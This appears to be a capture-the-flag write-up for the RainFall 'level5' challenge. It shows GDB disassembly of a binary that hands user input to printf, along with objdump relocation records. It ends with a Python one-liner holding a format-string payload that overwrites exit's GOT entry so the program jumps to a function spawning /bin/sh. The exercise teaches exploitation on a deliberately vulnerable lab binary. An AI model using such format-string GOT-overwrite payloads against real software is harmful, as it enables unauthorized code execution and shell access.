 # level5

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Once again, `main` calls a function `n` which declares a buffer, use `fgets` to feed it, then print it with `printf`.

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

Thanks to `objdump`, we find out another interesting function which is not called, `o`.

```gdb
gdb-peda$ disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0   ; push address 0x80485f0 to stack (contains "/bin/sh")
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

We easily understand that we must find a way to call the function `o` that will spawn a shell thanks to `system`.

We notice `<exit@plt>` in `n` and `<_exit@plt>` in `o`. It puts the chip in our ear: we could use the _GOT_ (Global Offset Table). When the program runs for the first time

```console
level5@RainFall:~$ objdump -TR level5

level5:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*   00000000  GLIBC_2.0   printf
00000000      DF *UND*   00000000  GLIBC_2.0   _exit
00000000      DF *UND*   00000000  GLIBC_2.0   fgets
00000000      DF *UND*   00000000  GLIBC_2.0   system
00000000  w   D  *UND*   00000000              __gmon_start__
00000000      DF *UND*   00000000  GLIBC_2.0   exit
00000000      DF *UND*   00000000  GLIBC_2.0   __libc_start_main
080485ec g    DO .rodata 00000004  Base    _IO_stdin_used
08049848 g    DO .bss    00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

## Exploit

python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/level5